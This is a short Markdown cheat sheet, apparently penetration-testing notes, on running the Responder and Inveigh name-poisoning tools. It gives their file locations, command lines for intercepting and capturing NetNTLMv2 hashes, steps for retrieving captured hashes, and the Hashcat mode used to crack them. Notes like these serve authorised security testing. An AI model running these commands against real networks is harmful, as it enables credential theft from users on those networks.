 # Responder and Inveigh

## Responder Data Files
- Data is stored in /usr/share/responder/logs
- Defautl database is /usr/share/responder/Responder.db (sqlite DB)
- Default configuration file is /usr/share/responder/Responder.conf
- If relaying with nltmx make sure to disable smb in Responder.conf ^^
- Hashcat mode for NetNTLMv2 is 5600

## Responder Usage
```
## Analyze Mode
responder -I eth0 -A 

## Active Intercept
responder -I eth0 -Pwd
```

## Legacy versions of Responder
```
responder -I eth0 -wrf
```

## Inveigh Usage (Legacy version)
```
## Import Module
. .\Inveigh.ps1
Import-Module .\Inveigh.ps1

## Get All Command Parameters
(Get-Command Invoke-Inveigh).Parameters

## Default Usage
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y

## Stop Inveigh
Stop-Inveigh
```

## Inveigh-Zero (C# version)
```
.\Inveigh.exe

## Check Hashes
Press the ESC button and type HELP for all options
GET NTLMV2UNIQUE
RESUME to resume intercepting
```